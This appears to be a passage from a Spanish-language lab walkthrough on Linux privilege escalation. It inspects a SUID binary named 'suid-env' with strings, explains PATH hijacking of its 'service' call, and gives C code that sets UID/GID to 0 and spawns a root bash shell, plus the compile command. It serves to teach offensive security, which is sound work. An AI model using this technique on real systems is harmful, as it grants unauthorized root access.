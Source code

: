 **🎉 Escalada conseguida**


### 👉Escalando por `suid-env` 
Analizamos este recurso con el comando `strings` para saber qué alimenta a este binario. El comando `strings` lee archivos binarios y busca elementos legibles.

```bash
strings /usr/local/bin/suid-env
```

Del comando, obtenemos una salida como la siguiente

```
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```

En esta ocasión, intentaremos *confundir* a la máquina haciendo que ejecute un binario `service` que creamos nosotros, realizando cambios en el **PATH** del sistema.

**¿Por qué?** El *path* es una variable del sistema, donde el usuario puede especificar las rutas **donde el sistema pueda buscar cualquier binario** que el usuario desee ejecutar. Y si nosotros siendo el usuario podemos controlar el path, podemos cambiar cómo funciona.

Podemos consultar las variables del sistema con el comando `env`.

**💪 MANOS A LA OBRA**

En primer lugar, creamos el código malicioso, en la ruta `/home/user/` con el nombre `service.c` y escribimos el siguiente código.
```C
int main() {
	setgid(0); //Establece el GID (grupo) en 0 (grupo 0 = root)
	setuid(0); //Establece el UID (usuario) en 0 (usuario 0 = root)
	system("/bin/bash"); //Abre una shell
	return 0;
}
```

Y lo compilamos
```bash
gcc /home/user/service.c -o /home/user/service
```
